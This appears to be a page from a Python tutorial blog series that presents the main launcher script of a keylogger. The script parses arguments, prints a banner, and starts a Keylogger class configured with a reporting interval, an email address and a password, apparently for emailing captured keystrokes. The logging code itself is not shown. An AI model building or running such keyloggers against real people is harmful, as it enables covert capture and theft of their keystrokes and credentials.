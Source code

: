 ```yaml
---
permalink: /python_101/keylogger/
categories: python_101
#modified: 20-08-29 09:24:47 +07:00
#tags: [blog, netlify, jekyll, github]
---
```


## This script invokes all methods and classes used by the keylogger.


- We make the code modular and much easy to read seperating the keylogger class and main files. 

- We use this class to invoke methods from the keylogger class to log and report.


### Code:

```python
#!/usr/bin/env python

import argparse
# import filename
import keylogger


# Parse Args
options = keylogger.get_arguments()
print(keylogger.banner)
# new object definition for class "Keylogger"
my_keylogger = keylogger.Keylogger(int(options.interval), str(options.email), str(options.password))
# Use the start method
my_keylogger.start()
```